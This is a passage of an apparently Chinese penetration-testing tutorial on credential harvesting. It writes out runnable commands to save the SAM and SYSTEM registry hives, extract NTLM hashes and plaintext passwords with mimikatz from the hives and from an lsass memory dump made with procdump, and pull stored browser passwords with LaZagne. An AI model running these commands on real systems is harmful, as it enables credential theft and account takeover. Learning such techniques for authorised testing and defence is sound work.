 ```
Windows： 本地密码Hash和明文密码/抓取浏览器密码/服务端明文密码
linux：history记录敏感操作/shadow文件破解/mimipenguin抓取密码/使用Strace收集登录凭证/全盘搜索敏感信息
```

#### 注册表读取密码

注册表读取密码主要获取的是两个文件：

```
reg save HKLM\SYSTEM Sys.hiv
reg save HKLM\SAM Sam.hiv
```

[![bTgtSg.png](https://s1.ax1x.com/2022/03/12/bTgtSg.png)](https://imgtu.com/i/bTgtSg)

导出注册表之后，我们可以通过mimikatz读取密码hash值：

~~~
mimikatz读取密码
mimikatz.exe "lsadump::sam /sam:Sam.hiv /system:Sys.hiv " exit> hiv.txt
~~~

[![bTggl4.png](https://s1.ax1x.com/2022/03/12/bTggl4.png)](https://imgtu.com/i/bTggl4)

[![bT2icQ.png](https://s1.ax1x.com/2022/03/12/bT2icQ.png)](https://imgtu.com/i/bT2icQ)

其中：NTLM加密的hash就是管理员登陆的加密密码！

#### lsass内存读取密码

lsass.exe是一个系统进程，用于微软Windows系统的安全机制。它用于本地安全和登陆策略zhi。要想读取内存的密码，前提是用户登陆过机器，登陆过就会在内存中停留：lsass.exe

使用工具：procdump.exe

~~~
procdump.exe -accepteula -ma lsass.exe lsass.dmp
~~~

[![bT2wge.png](https://s1.ax1x.com/2022/03/12/bT2wge.png)](https://imgtu.com/i/bT2wge)

然后再通过mimikatz读取：

08或者08以下的机器读取的是明文密码：测试机器是Windows server 2008

~~~
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
~~~

![](https://i.bmp.ovh/imgs/2022/03/1bad3b6c2c271a08.png)

#### LaZagne读取各类密码（浏览器等）

LaZagne是用于开源应用程序获取大量的密码存储在本地计算机上。每个软件都使用不同的技术（明文，API，自定义算法，[数据库](https://cloud.tencent.com/solution/database?from=10680)等）存储其密码。开发该工具的目的是为最常用的软件找到这些密码。

下载地址：

https://hub.fastgit.xyz/AlessandroZ/LaZagne

https://hub.fastgit.xyz/AlessandroZ/LaZagne/releases

~~~
获取所有密码：
lazagne.exe all
~~~

![](https://i.bmp.ovh/imgs/2022/03/1c88073b97a9ed67.png)

#### XenArmor All-In-One

直接抓







































































